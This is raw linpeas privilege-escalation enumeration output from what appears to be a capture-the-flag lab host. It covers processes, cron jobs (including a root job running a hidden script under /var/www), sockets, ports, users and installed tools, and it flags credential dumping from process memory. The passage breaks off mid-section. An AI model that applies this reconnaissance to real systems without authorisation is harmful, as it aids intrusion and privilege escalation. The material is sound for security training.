www-data   567  0.0  1.3 160592  6456 ?        S    05:08   0:00  _ nginx: worker process
whoopsie   570  0.0  2.0 450744 10212 ?        Ssl  05:08   0:00 /usr/bin/whoopsie -f
kernoops   572  0.0  0.0  56944   424 ?        Ss   05:08   0:00 /usr/sbin/kerneloops --test
root       575  0.0  1.0  74060  4924 ?        Ss   05:08   0:00 /usr/sbin/apache2 -k start
www-data  1087  0.0  0.9 826352  4668 ?        Sl   05:13   0:00  _ /usr/sbin/apache2 -k start
www-data  1088  0.0  0.9 826352  4668 ?        Sl   05:13   0:00  _ /usr/sbin/apache2 -k start
kernoops   576  0.0  0.0  56944   424 ?        Ss   05:08   0:00 /usr/sbin/kerneloops
root       640  0.0  0.4  23064  2372 ttyS0    Ss+  05:08   0:00 /sbin/agetty -o -p -- u --keep-baud 115200,38400,9600 ttyS0 vt220
root       646  0.0  0.3  23288  1828 tty1     Ss+  05:08   0:00 /sbin/agetty -o -p -- u --noclear tty1 linux
boring     843  0.1  1.6  76672  7896 ?        Ss   05:10   0:00 /lib/systemd/systemd --user
boring     844  0.0  0.4 193604  2296 ?        S    05:10   0:00  _ (sd-pam)
root      1151  0.0  1.5 107700  7432 ?        Ss   05:13   0:00 /usr/sbin/cupsd -l
root      1589 15.3  5.8 178804 28524 ?        Sl   05:18   0:12 /usr/bin/python3 /usr/lib/ubuntu-release-upgrader/check-new-release -q

╔══════════╣ Binary processes permissions (non 'root root' and not beloging to current user)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes                                                                              
                                                                                                                                                     
╔══════════╣ Files opened by processes belonging to other users
╚ This is usually empty because of the lack of privileges to read other user processes information                                                   
COMMAND    PID  TID             USER   FD      TYPE             DEVICE SIZE/OFF       NODE NAME                                                      

╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#credentials-from-process-memory                                                        
gdm-password Not Found                                                                                                                               
gnome-keyring-daemon Not Found                                                                                                                       
lightdm Not Found                                                                                                                                    
vsftpd Not Found                                                                                                                                     
apache2 process found (dump creds from memory as root)                                                                                               
sshd: process found (dump creds from memory as root)

╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs                                                                    
/usr/bin/crontab                                                                                                                                     
incrontab Not Found
-rw-r--r-- 1 root root     792 Jun 15  2020 /etc/crontab                                                                                             

/etc/cron.d:
total 28
drwxr-xr-x   2 root root  4096 Apr 26  2018 .
drwxr-xr-x 121 root root 12288 Jun 15  2020 ..
-rw-r--r--   1 root root   285 May 29  2017 anacron
-rw-r--r--   1 root root   102 Nov 15  2017 .placeholder
-rw-r--r--   1 root root   190 Jun 13  2020 popularity-contest

/etc/cron.daily:
total 72
drwxr-xr-x   2 root root  4096 Jun 14  2020 .
drwxr-xr-x 121 root root 12288 Jun 15  2020 ..
-rwxr-xr-x   1 root root   311 May 29  2017 0anacron
-rwxr-xr-x   1 root root   539 Jul 16  2019 apache2
-rwxr-xr-x   1 root root   376 Nov 20  2017 apport
-rwxr-xr-x   1 root root  1478 Apr 20  2018 apt-compat
-rwxr-xr-x   1 root root   355 Dec 29  2017 bsdmainutils
-rwxr-xr-x   1 root root  1176 Nov  2  2017 dpkg
-rwxr-xr-x   1 root root   372 Aug 21  2017 logrotate
-rwxr-xr-x   1 root root  1065 Apr  7  2018 man-db
-rwxr-xr-x   1 root root   538 Mar  1  2018 mlocate
-rwxr-xr-x   1 root root   249 Jan 25  2018 passwd
-rw-r--r--   1 root root   102 Nov 15  2017 .placeholder
-rwxr-xr-x   1 root root  3477 Feb 20  2018 popularity-contest
-rwxr-xr-x   1 root root   246 Mar 21  2018 ubuntu-advantage-tools
-rwxr-xr-x   1 root root   214 Jul 12  2013 update-notifier-common

/etc/cron.hourly:
total 20
drwxr-xr-x   2 root root  4096 Apr 26  2018 .
drwxr-xr-x 121 root root 12288 Jun 15  2020 ..
-rw-r--r--   1 root root   102 Nov 15  2017 .placeholder

/etc/cron.monthly:
total 24
drwxr-xr-x   2 root root  4096 Apr 26  2018 .
drwxr-xr-x 121 root root 12288 Jun 15  2020 ..
-rwxr-xr-x   1 root root   313 May 29  2017 0anacron
-rw-r--r--   1 root root   102 Nov 15  2017 .placeholder

/etc/cron.weekly:
total 32
drwxr-xr-x   2 root root  4096 Jun 14  2020 .
drwxr-xr-x 121 root root 12288 Jun 15  2020 ..
-rwxr-xr-x   1 root root   312 May 29  2017 0anacron
-rwxr-xr-x   1 root root   723 Apr  7  2018 man-db
-rw-r--r--   1 root root   102 Nov 15  2017 .placeholder
-rwxr-xr-x   1 root root   211 Jul 12  2013 update-notifier-common

/var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Jun 13  2020 .
drwxr-xr-x 6 root root 4096 Apr 26  2018 ..
-rw------- 1 root root    9 Mar 26 05:14 cron.daily
-rw------- 1 root root    9 Jun 13  2020 cron.monthly
-rw------- 1 root root    9 Mar 26 05:18 cron.weekly

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh


SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

1       5       cron.daily      run-parts --report /etc/cron.daily
7       10      cron.weekly     run-parts --report /etc/cron.weekly
@monthly        15      cron.monthly    run-parts --report /etc/cron.monthly

╔══════════╣ Systemd PATH
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#systemd-path-relative-paths                                                            
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin                                                                                    

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#services                                                                               
You can't write on systemd PATH                                                                                                                      

╔══════════╣ System timers
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers                                                                                 
NEXT                         LEFT           LAST                         PASSED    UNIT                         ACTIVATES                            
Sat 2022-03-26 05:22:37 PDT  2min 23s left  n/a                          n/a       systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Sat 2022-03-26 06:36:44 PDT  1h 16min left  Sat 2022-03-26 05:08:39 PDT  11min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
Sat 2022-03-26 10:13:37 PDT  4h 53min left  Sat 2022-03-26 05:08:39 PDT  11min ago apt-daily.timer              apt-daily.service
Sat 2022-03-26 16:44:38 PDT  11h left       Sat 2022-03-26 05:08:39 PDT  11min ago motd-news.timer              motd-news.service
Mon 2022-03-28 00:00:00 PDT  1 day 18h left Sat 2022-03-26 05:08:39 PDT  11min ago fstrim.timer                 fstrim.service
n/a                          n/a            Sat 2022-03-26 05:08:39 PDT  11min ago anacron.timer                anacron.service
n/a                          n/a            n/a                          n/a       ureadahead-stop.timer        ureadahead-stop.service

╔══════════╣ Analyzing .timer files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers                                                                                 
                                                                                                                                                     
╔══════════╣ Analyzing .socket files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets                                                                                
/etc/systemd/system/sockets.target.wants/avahi-daemon.socket is calling this writable listener: /run/avahi-daemon/socket                             
/etc/systemd/system/sockets.target.wants/uuidd.socket is calling this writable listener: /run/uuidd/request
/lib/systemd/system/avahi-daemon.socket is calling this writable listener: /run/avahi-daemon/socket
/lib/systemd/system/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/sockets.target.wants/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/sockets.target.wants/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket
/lib/systemd/system/syslog.socket is calling this writable listener: /run/systemd/journal/syslog
/lib/systemd/system/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
/lib/systemd/system/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
/lib/systemd/system/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket
/lib/systemd/system/uuidd.socket is calling this writable listener: /run/uuidd/request

╔══════════╣ Unix Sockets Listening
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets                                                                                
/run/acpid.socket                                                                                                                                    
  └─(Read Write)
/run/avahi-daemon/socket
  └─(Read Write)
/run/cups/cups.sock
  └─(Read Write)
/run/dbus/system_bus_socket
  └─(Read Write)
/run/systemd/fsck.progress
/run/systemd/journal/dev-log
  └─(Read Write)
/run/systemd/journal/socket
  └─(Read Write)
/run/systemd/journal/stdout
  └─(Read Write)
/run/systemd/journal/syslog
  └─(Read Write)
/run/systemd/notify
  └─(Read Write)
/run/systemd/private
  └─(Read Write)
/run/udev/control
/run/user/1000/bus
  └─(Read Write)
/run/user/1000/gnupg/S.dirmngr
  └─(Read Write)
/run/user/1000/gnupg/S.gpg-agent
  └─(Read Write)
/run/user/1000/gnupg/S.gpg-agent.browser
  └─(Read Write)
/run/user/1000/gnupg/S.gpg-agent.extra
  └─(Read Write)
/run/user/1000/gnupg/S.gpg-agent.ssh
  └─(Read Write)
/run/user/1000/systemd/notify
  └─(Read Write)
/run/user/1000/systemd/private
  └─(Read Write)
/run/uuidd/request
  └─(Read Write)
/var/run/dbus/system_bus_socket
  └─(Read Write)

╔══════════╣ D-Bus config files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#d-bus                                                                                  
Possible weak user policy found on /etc/dbus-1/system.d/avahi-dbus.conf (  <policy user="avahi">)                                                    
Possible weak user policy found on /etc/dbus-1/system.d/avahi-dbus.conf (  <policy group="netdev">)
Possible weak user policy found on /etc/dbus-1/system.d/bluetooth.conf (  <policy group="bluetooth">
  <policy group="lp">)
Possible weak user policy found on /etc/dbus-1/system.d/kerneloops.conf (  <policy user="kernoops">)
Possible weak user policy found on /etc/dbus-1/system.d/org.freedesktop.NetworkManager.conf (        <policy user="whoopsie">)
Possible weak user policy found on /etc/dbus-1/system.d/pulseaudio-system.conf (  <policy user="pulse">)
Possible weak user policy found on /etc/dbus-1/system.d/wpa_supplicant.conf (        <policy group="netdev">)

╔══════════╣ D-Bus Service Objects list
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#d-bus                                                                                  
NAME                                                      PID PROCESS         USER             CONNECTION    UNIT                      SESSION    DESCRIPTION        
:1.0                                                      277 systemd-network systemd-network  :1.0          systemd-networkd.service  -          -                  
:1.1                                                      399 systemd-resolve systemd-resolve  :1.1          systemd-resolved.service  -          -                  
:1.10                                                     478 wpa_supplicant  root             :1.10         wpa_supplicant.service    -          -                  
:1.12                                                     505 polkitd         root             :1.12         polkit.service            -          -                  
:1.19                                                     484 NetworkManager  root             :1.19         NetworkManager.service    -          -                  
:1.2                                                        1 systemd         root             :1.2          init.scope                -          -                  
:1.23                                                     483 networkd-dispat root             :1.23         networkd-dispatcher.se…ce -          -                  
:1.25                                                     572 kerneloops      kernoops         :1.25         kerneloops.service        -          -                  
:1.26                                                     576 kerneloops      kernoops         :1.26         kerneloops.service        -          -                  
:1.27                                                     570 whoopsie        whoopsie         :1.27         whoopsie.service          -          -                  
:1.3                                                      451 systemd-logind  root             :1.3          systemd-logind.service    -          -                  
:1.4                                                      454 avahi-daemon    avahi            :1.4          avahi-daemon.service      -          -                  
:1.5                                                      455 accounts-daemon[0m root             :1.5          accounts-daemon.service   -          -                  
:1.6                                                      449 udisksd         root             :1.6          udisks2.service           -          -                  
:1.69                                                    1151 cupsd           root             :1.69         cups.service              -          -                  
:1.7                                                      448 ModemManager    root             :1.7          ModemManager.service      -          -                  
:1.82                                                    6804 busctl          boring           :1.82         session-3.scope           3          -                  
com.hp.hplip                                                - -               -                (activatable) -                         -         
com.ubuntu.LanguageSelector                                 - -               -                (activatable) -                         -         
com.ubuntu.SoftwareProperties                               - -               -                (activatable) -                         -         
com.ubuntu.USBCreator                                       - -               -                (activatable) -                         -         
fi.epitest.hostap.WPASupplicant                           478 wpa_supplicant  root             :1.10         wpa_supplicant.service    -          -                  
fi.w1.wpa_supplicant1                                     478 wpa_supplicant  root             :1.10         wpa_supplicant.service    -          -                  
io.netplan.Netplan                                          - -               -                (activatable) -                         -         
org.blueman.Mechanism                                       - -               -                (activatable) -                         -         
org.bluez                                                   - -               -                (activatable) -                         -         
org.debian.apt                                              - -               -                (activatable) -                         -         
org.freedesktop.Accounts                                  455 accounts-daemon[0m root             :1.5          accounts-daemon.service   -          -                  
org.freedesktop.Avahi                                     454 avahi-daemon    avahi            :1.4          avahi-daemon.service      -          -                  
org.freedesktop.DBus                                        1 systemd         root             -             init.scope                -          -                  
org.freedesktop.ModemManager1                             448 ModemManager    root             :1.7          ModemManager.service      -          -                  
org.freedesktop.NetworkManager                            484 NetworkManager  root             :1.19         NetworkManager.service    -          -                  
org.freedesktop.PackageKit                                  - -               -                (activatable) -                         -         
org.freedesktop.PolicyKit1                                505 polkitd         root             :1.12         polkit.service            -          -                  
org.freedesktop.SystemToolsBackends                         - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.GroupConfig2            - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.GroupsConfig2           - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.HostsConfig             - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.IfacesConfig            - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.NFSConfig               - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.NTPConfig               - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.Platform                - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.SMBConfig               - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.SelfConfig2             - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.ServiceConfig2          - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.ServicesConfig          - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.TimeConfig              - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.UserConfig2             - -               -                (activatable) -                         -         
org.freedesktop.SystemToolsBackends.UsersConfig2            - -               -                (activatable) -                         -         
org.freedesktop.UDisks2                                   449 udisksd         root             :1.6          udisks2.service           -          -                  
org.freedesktop.UPower                                      - -               -                (activatable) -                         -         
org.freedesktop.fwupd                                       - -               -                (activatable) -                         -         
org.freedesktop.hostname1                                   - -               -                (activatable) -                         -         
org.freedesktop.locale1                                     - -               -                (activatable) -                         -         
org.freedesktop.login1                                    451 systemd-logind  root             :1.3          systemd-logind.service    -          -                  
org.freedesktop.network1                                  277 systemd-network systemd-network  :1.0          systemd-networkd.service  -          -                  
org.freedesktop.nm_dispatcher                               - -               -                (activatable) -                         -         
org.freedesktop.resolve1                                  399 systemd-resolve systemd-resolve  :1.1          systemd-resolved.service  -          -                  
org.freedesktop.systemd1                                    1 systemd         root             :1.2          init.scope                -          -                  
org.freedesktop.timedate1                                   - -               -                (activatable) -                         -         


                                        ╔═════════════════════╗
════════════════════════════════════════╣ Network Information ╠════════════════════════════════════════                                              
                                        ╚═════════════════════╝                                                                                      
╔══════════╣ Hostname, hosts and DNS
kral4-PC                                                                                                                                             
127.0.0.1       localhost
127.0.1.1       kral4-PC

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 127.0.0.53
options edns0
search eu-west-1.compute.internal

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                                  
link-local 169.254.0.0
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:30:74:a5:b2:27 brd ff:ff:ff:ff:ff:ff
    inet 10.10.245.192/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2866sec preferred_lft 2866sec
    inet6 fe80::30:74ff:fea5:b227/64 scope link 
       valid_lft forever preferred_lft forever

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                             
tcp   LISTEN  0       128            127.0.0.53%lo:53             0.0.0.0:*                                                                          
tcp   LISTEN  0       5                  127.0.0.1:631            0.0.0.0:*     
tcp   LISTEN  0       128                  0.0.0.0:6498           0.0.0.0:*     
tcp   LISTEN  0       128                  0.0.0.0:80             0.0.0.0:*     
tcp   LISTEN  0       128                        *:65524                *:*     
tcp   LISTEN  0       5                      [::1]:631               [::]:*     
tcp   LISTEN  0       128                     [::]:6498              [::]:*     
tcp   LISTEN  0       128                     [::]:80                [::]:*     

╔══════════╣ Can I sniff with tcpdump?
No                                                                                                                                                   
                                                                                                                                                     


                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Users Information ╠═════════════════════════════════════════                                              
                                         ╚═══════════════════╝                                                                                       
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#users                                                                                  
uid=1000(boring) gid=1000(boring) groups=1000(boring)                                                                                                

╔══════════╣ Do I have PGP keys?
/usr/bin/gpg                                                                                                                                         
netpgpkeys Not Found
netpgp Not Found                                                                                                                                     
                                                                                                                                                     
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                          
                                                                                                                                                     
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens                                                                    
ptrace protection is enabled (1)                                                                                                                     
gdb wasn't found in PATH, this might still be vulnerable but linpeas won't be able to check it

╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                
                                                                                                                                                     
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                                      

╔══════════╣ Users with console
boring:x:1000:1000:Admin CTF,,,:/home/boring:/bin/bash                                                                                               
root:x:0:0:root:/root:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                               
uid=1000(boring) gid=1000(boring) groups=1000(boring)
uid=100(systemd-network) gid=102(systemd-network) groups=102(systemd-network)
uid=101(systemd-resolve) gid=103(systemd-resolve) groups=103(systemd-resolve)
uid=102(syslog) gid=106(syslog) groups=106(syslog),4(adm)
uid=103(messagebus) gid=107(messagebus) groups=107(messagebus)
uid=104(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=105(uuidd) gid=110(uuidd) groups=110(uuidd)
uid=106(lightdm) gid=113(lightdm) groups=113(lightdm)
uid=107(whoopsie) gid=117(whoopsie) groups=117(whoopsie)
uid=108(kernoops) gid=65534(nogroup) groups=65534(nogroup)
uid=109(pulse) gid=119(pulse) groups=119(pulse),29(audio)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=110(avahi) gid=121(avahi) groups=121(avahi)
uid=111(hplip) gid=7(lp) groups=7(lp)
uid=112(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)

╔══════════╣ Login now
 05:20:17 up 12 min,  1 user,  load average: 1.22, 0.93, 0.64                                                                                        
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
boring   pts/0    10.9.2.170       05:10    3:29   0.74s  0.00s /bin/sh ./linpeas.sh

╔══════════╣ Last logons
                                                                                                                                                     
wtmp begins Sat Mar 26 05:13:48 2022

╔══════════╣ Last time logon each user
Username         Port     From             Latest                                                                                                    
root             tty1                      Mon Jun 15 14:07:26 -0700 2020
boring           pts/0    10.9.2.170       Sat Mar 26 05:10:07 -0700 2022

╔══════════╣ Do not forget to test 'su' as any other user with shell: without password and with their names as password (I can't do it...)
                                                                                                                                                     
╔══════════╣ Do not forget to execute 'sudo -l' without password or with valid password (if you know it)!!
                                                                                                                                                     


                                       ╔══════════════════════╗
═══════════════════════════════════════╣ Software Information ╠═══════════════════════════════════════                                               
                                       ╚══════════════════════╝                                                                                      
╔══════════╣ Useful software
/usr/bin/base64                                                                                                                                      
/bin/nc
/bin/netcat
/usr/bin/perl
/bin/ping
/usr/bin/python3
/usr/bin/python3.6
/usr/bin/sudo
/usr/bin/wget

╔══════════╣ Installed Compilers
/usr/share/gcc-8                                                                                                                                     

╔══════════╣ Searching mysql credentials and exec
                                                                                                                                                     
╔══════════╣ Analyzing Apache Files (limit 70)
Version: Server version: Apache/2.4.43 (Ubuntu)                                                                                                      
Server built:   2020-04-23T16:38:40
httpd Not Found
                                                                                                                                                     
══╣ PHP exec extensions
drwxr-xr-x 2 root root 4096 Jun 14  2020 /etc/apache2/sites-enabled                                                                                  
drwxr-xr-x 2 root root 4096 Jun 14  2020 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Jun 13  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf

drwxr-xr-x 2 root root 4096 Jun 14  2020 /etc/nginx/sites-enabled
drwxr-xr-x 2 root root 4096 Jun 14  2020 /etc/nginx/sites-enabled
lrwxrwxrwx 1 root root 34 Jun 14  2020 /etc/nginx/sites-enabled/default -> /etc/nginx/sites-available/default


-rw-r--r-- 1 root root 1335 Jun 14  2020 /etc/apache2/sites-available/000-default.conf
<VirtualHost *:65524>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
lrwxrwxrwx 1 root root 35 Jun 13  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:65524>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet


╔══════════╣ Analyzing FastCGI Files (limit 70)
-rw-r--r-- 1 root root 1007 Apr  5  2018 /etc/nginx/fastcgi_params                                                                                   

╔══════════╣ Analyzing Rsync Files (limit 70)
-rw-r--r-- 1 root root 1044 Feb 13  2020 /usr/share/doc/rsync/examples/rsyncd.conf                                                                   
[ftp]
        comment = public archive
        path = /var/www/pub
        use chroot = yes
        lock file = /var/lock/rsyncd
        read only = yes
        list = yes
        uid = nobody
        gid = nogroup
        strict modes = yes
        ignore errors = no
        ignore nonreadable = yes
        transfer logging = no
        timeout = 600
        refuse options = checksum dry-run
        dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz


╔══════════╣ Analyzing Wifi Connections Files (limit 70)
drwxr-xr-x 2 root root 4096 Mar 26  2018 /etc/NetworkManager/system-connections                                                                      
drwxr-xr-x 2 root root 4096 Mar 26  2018 /etc/NetworkManager/system-connections


╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'                                                                                                 
drwxr-xr-x 2 root root 4096 Jun 14  2020 /etc/ldap


╔══════════╣ Searching ssl/ssh files
Port 6498                                                                                                                                            
PermitRootLogin no
ChallengeResponseAuthentication no
UsePAM yes
══╣ Some certificates were found (out limited):
/etc/pki/fwupd/LVFS-CA.pem                                                                                                                           
/etc/pki/fwupd-metadata/LVFS-CA.pem
1240PSTORAGE_CERTSBIN

══╣ Some home ssh config file was found
/usr/share/openssh/sshd_config                                                                                                                       
ChallengeResponseAuthentication no
UsePAM yes
X11Forwarding yes
PrintMotd no
AcceptEnv LANG LC_*
Subsystem       sftp    /usr/lib/openssh/sftp-server

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow                                                                                                                                     


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes

╔══════════╣ Analyzing PAM Auth Files (limit 70)
drwxr-xr-x 2 root root 4096 Jun 14  2020 /etc/pam.d                                                                                                  
-rw-r--r-- 1 root root 2133 Mar  4  2019 /etc/pam.d/sshd


╔══════════╣ Passwords inside pam.d
/etc/pam.d/lightdm:auth    sufficient      pam_succeed_if.so user ingroup nopasswdlogin                                                              


╔══════════╣ Analyzing Keyring Files (limit 70)
drwxr-xr-x 2 root root 4096 Jun 14  2020 /usr/share/keyrings                                                                                         


╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd                                                                                                                       
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

╔══════════╣ Analyzing PGP-GPG Files (limit 70)
/usr/bin/gpg                                                                                                                                         
netpgpkeys Not Found
netpgp Not Found                                                                                                                                     
                                                                                                                                                     
-rw-r--r-- 1 root root 345 Jun 14  2020 /etc/apt/trusted.gpg.d/nginx_ubuntu_stable.gpg
-rw-r--r-- 1 root root 360 Jun 14  2020 /etc/apt/trusted.gpg.d/ondrej_ubuntu_apache2.gpg
-rw-r--r-- 1 root root 2796 Sep 17  2018 /etc/apt/trusted.gpg.d/ubuntu-keyring-2012-archive.gpg
-rw-r--r-- 1 root root 2794 Sep 17  2018 /etc/apt/trusted.gpg.d/ubuntu-keyring-2012-cdimage.gpg
-rw-r--r-- 1 root root 1733 Sep 17  2018 /etc/apt/trusted.gpg.d/ubuntu-keyring-2018-archive.gpg
-rw-r--r-- 1 root root 3267 Jan 10  2019 /usr/share/gnupg/distsigkey.gpg
-rw-r--r-- 1 root root 7399 Sep 17  2018 /usr/share/keyrings/ubuntu-archive-keyring.gpg
-rw-r--r-- 1 root root 6713 Oct 27  2016 /usr/share/keyrings/ubuntu-archive-removed-keys.gpg
-rw-r--r-- 1 root root 4097 Feb  6  2018 /usr/share/keyrings/ubuntu-cloudimage-keyring.gpg
-rw-r--r-- 1 root root 0 Jan 17  2018 /usr/share/keyrings/ubuntu-cloudimage-removed-keys.gpg
-rw-r--r-- 1 root root 2253 Mar 21  2018 /usr/share/keyrings/ubuntu-esm-keyring.gpg
-rw-r--r-- 1 root root 1139 Mar 21  2018 /usr/share/keyrings/ubuntu-fips-keyring.gpg
-rw-r--r-- 1 root root 1139 Mar 21  2018 /usr/share/keyrings/ubuntu-fips-updates-keyring.gpg
-rw-r--r-- 1 root root 1227 May 27  2010 /usr/share/keyrings/ubuntu-master-keyring.gpg
-rw-r--r-- 1 root root 2867 Feb 21  2018 /usr/share/popularity-contest/debian-popcon.gpg

drwx------ 3 boring boring 4096 Mar 26 05:20 /home/boring/.gnupg

╔══════════╣ Kubernetes information
                                                                                                                                                     
╔══════════╣ Analyzing Postfix Files (limit 70)
-rw-r--r-- 1 root root 675 Apr  1  2018 /usr/share/bash-completion/completions/postfix                                                               


╔══════════╣ Analyzing Bind Files (limit 70)
